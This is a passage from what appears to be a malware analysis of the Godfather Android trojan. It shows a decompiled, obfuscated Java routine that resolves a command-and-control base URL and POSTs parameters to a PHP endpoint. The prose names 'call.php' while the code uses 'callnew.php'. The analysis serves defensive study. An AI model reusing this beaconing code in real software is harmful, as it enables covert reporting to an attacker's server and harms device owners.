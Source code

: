 After that it passes the retrived value to the Uriiah function to obtain the base URL. 

Adds “call.php” to the obtained base url. 

Call undissuadably method to perform an HTTP POST request to this URL with the params. 

![Figure 28 - Request Http](/assets/images/2024-12-09-godfather-android-analysis/img28.png)

```java

public static void Malacostraca(Context context) {
    String effluvias = "ky";
    try {
        HashMap<String, String> params = new HashMap<>();
        
        params.put(effluvias, bedamned(context, effluvias));
        
        params.put("ick", "true");
        
        String url = Uriiah(bedamned(context, "min")) + "callnew.php";
        
        veepees.undissuadably(context, url, params);
    } catch (Exception e) {
    }
}

```


## Conclusion
